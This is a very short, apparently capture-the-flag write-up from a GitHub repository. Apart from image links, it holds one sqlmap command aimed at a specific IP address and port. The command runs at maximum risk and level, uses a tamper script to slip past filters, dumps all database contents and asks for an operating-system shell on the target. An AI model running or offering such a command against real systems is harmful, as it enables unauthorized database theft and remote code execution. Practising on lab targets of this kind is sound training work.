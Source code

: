 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/cc9c4810-ef5b-4986-9878-d959e54f6324)

`sqlmap -u "http://62.173.140.174:18600/?id=" --batch --level=2 --risk=3 --random-agent -v --tamper=space2comment --all --os-shell`

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c8ee09e9-ef49-4861-8d05-001133ddea0b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/83464127-58a8-4db0-aaaf-a091255019fc)


